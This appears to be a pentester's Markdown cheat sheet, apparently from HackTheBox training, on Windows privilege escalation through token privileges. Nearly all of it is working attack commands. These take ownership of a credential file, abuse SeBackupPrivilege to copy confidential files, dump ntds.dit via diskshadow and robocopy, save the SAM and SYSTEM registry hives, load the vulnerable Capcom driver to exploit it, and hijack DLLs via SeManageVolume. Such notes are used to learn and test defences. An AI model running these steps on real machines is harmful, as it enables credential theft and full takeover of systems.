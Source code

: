 #### Psgetsystem
https://github.com/decoder-it/psgetsystem

#### TakeOwn
https://github.com/fashionproof/EnableAllTokenPrivs

```powershell
https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/takeown

takeown /f 'C:\Department Shares\Private\IT\cred.txt'
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```
#### BackupPrivilege
https://github.com/giuliano108/SeBackupPrivilege
```powershell 
PS C:\htb> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\htb> Import-Module .\SeBackupPrivilegeCmdLets.dll

PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```

https://book.hacktricks.xyz/v/jp/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges
```powershell
#ntds.dit
C:\Windows\Temp> diskshadow.exe /s z.dsh
C:\Windows\Temp> robocopy /B z:\Windows\NTDS .\ntds ntds.dit

# SAM SYSTEM
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SAM SAM
```
z.dsh
```powershell
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
```
```bash
unix2dos z.dsh
```

#### LoadDriver
https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys
https://github.com/TarlogicSecurity/EoPLoadDriver/
https://github.com/musheebat/Compiled-capcom-exploit

```powershell
.\EoPLoadDriver.exe System\CurrentControlSet\Capcom .\Capcom.sys
.\ExploitCapcom.exe
```
#### SeManageVolume
https://github.com/CsEnox/SeManageVolumeExploit
```bash
# Default
C:\Windows\System32\spool\drivers\x64\3\Printconfig.dll

$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)

#DLL Hijacking
systeminfo
c:\windows\system32\wbem\tzres.dll
```
